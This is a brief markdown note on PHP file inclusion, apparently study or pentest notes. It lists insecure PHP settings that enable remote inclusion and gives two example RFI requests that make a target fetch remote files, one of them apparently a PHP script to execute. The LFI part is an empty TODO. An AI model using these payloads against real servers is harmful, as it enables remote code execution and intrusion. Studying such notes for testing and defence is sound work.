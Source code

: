 # File Inclusion

## RFI

PHP_ini settings:
```ini
   safe_mode = off
   disabled_functions = N/A
   register_globals = on
   allow_url_include = on
   allow_url_fopen = on
   short_tag_open = on
   file_uploads = on
   display_errors = on
```

```
rfi.php?page=https://raw.githubusercontent.com/danielmiessler/SecLists/master/Payloads/PHPInfo/phpinfo.txt

rfi.php?page=https://gist.githubusercontent.com/FJuette/9076c392fa2ca1fa684bea118a925a91/raw/dd1b2492bb83763fd872bb85eca166d15871eb3c/rfi.php
```

## LFI

TODO
